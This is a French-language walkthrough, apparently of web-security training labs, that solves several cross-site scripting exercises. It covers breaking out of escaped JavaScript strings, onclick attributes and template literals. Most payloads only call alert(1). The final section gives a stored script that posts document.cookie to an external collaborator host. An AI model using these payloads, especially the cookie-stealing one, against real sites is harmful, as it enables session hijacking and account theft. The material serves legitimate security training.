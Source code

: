Faire une recherche banale puis observer le code source de la réponse. On remarque le morceau suivant : 

    <script>
    var searchTerms = 'aaa';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

En testant quelques payloads comme pour le lab précédent, on voit que le guillemet simple est échappé mais pas l’antislash. 

Injecter le payload suivant dans la recherche : 

    a\' ; alert(1); //
    
### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

En postant un commentaire simple, on observe que le nom de notre site web est reflété dans un attribut “onclick” : 

    …
    <img src="/resources/images/avatarDefault.svg" class="avatar"> <a id="author" href="http://site.fr" onclick="var tracker={track(){}};tracker.track('http://site.fr');">nnn</a> | 20 October 2023
    …

Poster un commentaire en renseignant le payload suivant pour notre site web : 

> http://foo?&apos;-alert(1)-&apos;

### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

En faisant une recherche classique, on voit que notre entrée est reflétée dans le morceau de Javascript suivant : 

    <script>
    var message = `0 search results for 'aaa'`;
    document.getElementById('searchMessage').innerText = message;
    </script>

Ces backquotes indiquent une template string, et il est possible d’injecter des expressions dedans avec “${expression}” par exemple.

Voir : https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals 

Injecter le payload suivant dans la barre de recherche : 

    ${alert(1)}

### Exploiting cross-site scripting to steal cookies

Aller sur n'importe quel post du site et mettre un commentaire avec le payload suivant :

    <script>
    fetch('https://q2tvkl5p1jxsr2xxivm9q9w0oruii86x.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
    </script>
